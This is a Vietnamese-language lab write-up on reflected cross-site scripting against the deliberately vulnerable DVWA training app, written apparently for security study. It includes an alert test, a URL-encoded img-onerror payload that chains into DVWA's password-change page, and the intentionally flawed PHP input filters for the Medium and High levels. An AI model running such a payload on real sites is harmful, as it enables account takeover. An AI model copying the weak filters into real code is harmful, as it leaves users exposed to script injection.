




# XSS Reflect

**Mức độ: Trung bình, Cao.**



Đây là màn hình đầu tiên của ứng dụng -> Thực hiện chèn câu lệnh script 

```JS
<script>alert(1)</script>
```

Kết quả trả về như sau -> lỗ hổng đã xuất hiện



Thay parameter trong URL thành scỉpt độc hại dùng để thay đổi password:



```URL
http://localhost/DVWA/vulnerabilities/xss_r/?name=%3Cimg%20src%3D%22image.gif%22%20onerror%3D%22window.location.href%3D%27http%3A%2F%2Flocalhost%2FDVWA%2Fvulnerabilities%2Fcsrf%2F%3Fpassword_new%3Dpassword%26password_conf%3Dpassword%26Change%3DChange%23%27%3B%22%3E#
```



Ta có phần code của mức độ:

```PHP

<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello {$name}</pre>";
}

?>
```

**Mức độ: Cao.**

```PHP
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello {$name}</pre>";
}

?>
```

